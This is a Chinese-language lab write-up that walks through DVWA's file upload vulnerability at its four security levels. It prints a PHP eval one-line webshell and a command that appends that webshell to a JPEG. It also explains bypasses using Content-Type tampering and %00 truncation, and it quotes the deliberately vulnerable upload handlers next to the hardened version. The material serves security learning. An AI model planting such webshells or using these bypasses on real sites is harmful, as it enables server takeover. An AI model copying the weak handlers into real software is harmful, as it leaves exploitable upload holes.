










# 文件上传漏洞

## 0x00 Low级别

选择一张图片上传，先用一张正常的图片cat.jpeg上传




上传成功，并且返回了在服务器端的存储路径，并不确定服务器端是否对上传文件做了限制，测试直接上传写有php一句话木马的shell.php文件，还考虑尝试文件名后缀大小写或复写嵌套绕过

```php
<?php @eval($_POST['cmd']);?>
```



使用菜刀连接成功



源代码分析，low安全模式下显然只是规定了上传文件的存储路径以及是否上传成功的一个判断，并没有对上传文件的类型做安全限制，可以直接上传.php脚本getshell

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // Can we move the file to the upload folder?
    if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
        // No
        echo '<pre>Your image was not uploaded.</pre>';
    }
    else {
        // Yes!
        echo "<pre>{$target_path} succesfully uploaded!</pre>";
    }
}

?> 
```

## 0x01 Medium级别

先上传shell.php文件，观察页面返回信息，上传未成功，并且提示只接受.png和.jpeg的图片



既然只接受这两种后缀的图片，那尝试直接修改文件名后缀为shell.png，再次上传，成功并返回服务器端存储路径


可以确定服务器端并没有对内容做过滤，可能仅仅是针对文件名后缀或是文件类型做了限制，虽然图片类型上传成功但却是无法被解析，所以需要上传shell.php文件抓包，修改文件类型然后发包



页面返回上传成功



使用菜刀连接正常



源代码分析，相较于low级别的代码，medium级别对上传文件的类型和大小做了限制，要求必须是jpeg或是png类型且文件大小小于100000kb，需要注意的是单纯修改文件名后缀是无法绕过的，需要抓包修改文件类型

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];

    // Is it an image?
    if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
        ( $uploaded_size < 100000 ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}

?> 
```

## 0x02 High级别

使用上一轮处理medium级别的方法，修改文件类型现在已经无法上传成功

既然服务器端进一步加强了文件上传的限制，那么我们考虑这次便上传.jpeg或是.png的图片，但我们要在图片中加入php一句话木马，生成一张新的图片cat.php%00.jpeg，图片显示并无差异，但是使用记事本打开会发现文件末尾插入了一句话木马的代码，%00是为了实现文件类型截断

```shell
#命令行制作图片马,shell.php中写有php的一句话木马
copy cat.jpeg/b + shell.php/a cat.php%00.jpeg
```

尝试上传含有一句话木马的cat.php%00.jpeg图片，结果失败（medium级别下也可以使用这种截断的方法绕过）



分析源代码

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
    $uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

    // Is it an image?
    if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) &&
        ( $uploaded_size < 100000 ) &&
        getimagesize( $uploaded_tmp ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $uploaded_tmp, $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}

?> 
```

发现新增substr()、strrpos()和getimagesize()函数对输入的上传文件名做了处理

```php
//返回字符串的一部分，如果start参数是负数且length小于或等于start，则length为0
substr(string,start,[length])
//查找字符串在另一字符串中最后一次出现的位置（不区分大小写）
strrpos(string,find,[start])
//例如上传shell.jpeg文件，会查找.最后一次出现的位置并且+1，结果返回jpeg用来后续文件类型判断

//判断上传的文件是不是有效的图片	
getimagesize(string)
```

所以没办法靠抓包修改Content-Type类型或是截断来绕过，既然截断无效我们就直接上传制作好的图片马



能够看到上传成功，但因为是.jpeg类型所以无法用菜刀直接连接，但因为知道它存储的路径，所以能够配合文件包含漏洞来实现攻击，使得图片格式的一句话木马以php格式执行



可以看到图片被当成是php文件执行出现乱码，这时就可以用菜刀连接（未成功，在学习完文件包含漏洞后回来补充）

## 0x03 Impossible级别

不可能级别，直接来学习源代码怎么写的T^T

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );


    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
    $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
    $uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

    // Where are we going to be writing to?
    $target_path   = DVWA_WEB_PAGE_TO_ROOT . 'hackable/uploads/';
    //$target_file   = basename( $uploaded_name, '.' . $uploaded_ext ) . '-';
    $target_file   =  md5( uniqid() . $uploaded_name ) . '.' . $uploaded_ext;
    $temp_file     = ( ( ini_get( 'upload_tmp_dir' ) == '' ) ? ( sys_get_temp_dir() ) : ( ini_get( 'upload_tmp_dir' ) ) );
    $temp_file    .= DIRECTORY_SEPARATOR . md5( uniqid() . $uploaded_name ) . '.' . $uploaded_ext;

    // Is it an image?
    if( ( strtolower( $uploaded_ext ) == 'jpg' || strtolower( $uploaded_ext ) == 'jpeg' || strtolower( $uploaded_ext ) == 'png' ) &&
        ( $uploaded_size < 100000 ) &&
        ( $uploaded_type == 'image/jpeg' || $uploaded_type == 'image/png' ) &&
        getimagesize( $uploaded_tmp ) ) {

        // Strip any metadata, by re-encoding image (Note, using php-Imagick is recommended over php-GD)
        if( $uploaded_type == 'image/jpeg' ) {
            $img = imagecreatefromjpeg( $uploaded_tmp );
            imagejpeg( $img, $temp_file, 100);
        }
        else {
            $img = imagecreatefrompng( $uploaded_tmp );
            imagepng( $img, $temp_file, 9);
        }
        imagedestroy( $img );

        // Can we move the file to the web root from the temp folder?
        if( rename( $temp_file, ( getcwd() . DIRECTORY_SEPARATOR . $target_path . $target_file ) ) ) {
            // Yes!
            echo "<pre><a href='${target_path}${target_file}'>${target_file}</a> succesfully uploaded!</pre>";
        }
        else {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }

        // Delete any temp files
        if( file_exists( $temp_file ) )
            unlink( $temp_file );
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```


